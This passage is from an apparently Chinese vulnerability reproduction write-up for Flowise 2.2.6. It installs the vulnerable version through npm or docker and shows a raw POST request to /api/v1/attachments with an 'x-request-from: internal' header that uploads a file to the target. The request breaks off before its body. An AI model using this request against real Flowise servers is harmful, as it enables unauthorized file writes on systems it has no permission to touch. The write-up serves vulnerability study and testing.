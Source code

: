 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9BfGX3uDS1kQIHaHG2xT6TtNupfEfL0z4Wxls4QpoT8LBoqHctJLAicw/640?wx_fmt=png&from=appmsg "")  
  
通过 fnm 安装 node.js：fnm install 22  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9ia9w0OORX0By1vMMZB18rI8ibAthoQY4rwq4ibu2cta5fXSzKDs20KgUg/640?wx_fmt=png&from=appmsg "")  
  
安装 flowise：npm install -g flowise@2.2.6  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9yu9Kf0RwoIXfgbKxicRkpWpCNdrKiceqfsLklwk4xGAlVKV7tQQ70aAw/640?wx_fmt=png&from=appmsg "")  
  
启动 flowise：npx flowise start  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9lLdWU5LbicUPIKUc9sF7pqopic93Qq1vW5x1NfK7ahlXhicOWOP6RVP4g/640?wx_fmt=png&from=appmsg "")  
  
访问 localhost:3000  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9zDnbCkmqmokG35BOX7MiaWukUSLQdYF9E7NlDDZVvKEdykDguGcLXBg/640?wx_fmt=png&from=appmsg "")  
### 2) docker 搭建  
  
1.下载 flowise 安装包：wget https://codeload.github.com/FlowiseAI/Flowise/zip/refs/tags/flowise%402.2.6  
。  
  
2.解压安装包。  
  
3.打开文件夹中的 docker 文件夹，将里面的 .env.example  
 复制一份并改成 .env  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9bZWKUeFYkh9wjnqrGYrmict0pTmD7S6NT6W3fNjMzFpXw4JLoEsNQwg/640?wx_fmt=png&from=appmsg "")  
  
4.由于官方的 docker-compose.yml  
 是默认拉取最新的镜像，所以在安装时，需要修改 image  
 参数为漏洞版本的镜像。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9yEFaicE9EKAVAiayWIkFbIO5fEV8EFNujz0lheXvObtGUPOfiaT8jnfiaA/640?wx_fmt=png&from=appmsg "")  
  
5.最后启动：docker-compose up -d  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9cjfVWoQy0ibsxuG7dzp4YfebMmPxYibUz9wurzRXLicU336GRDK2Xc8mA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik98oXlFicfrSPZQv9ENPiaP8EiaHFcHexegWTE1szqYEJoKSywQpqqe4E2g/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
1.上传文件后，可以在目标机器上看到test.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9YksZudA0HAQbwjJiaF6KhohQFEH7bqiblmJBO08QO006jQ4Uf5vVC5mg/640?wx_fmt=png&from=appmsg "")  
  
```
POST /api/v1/attachments/test/test HTTP/1.1 
Host: yourURL  
Accept: application/json, text/plain, */*  
x-request-from: internal  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: http://localhost:3000/apikey  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 213
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
```
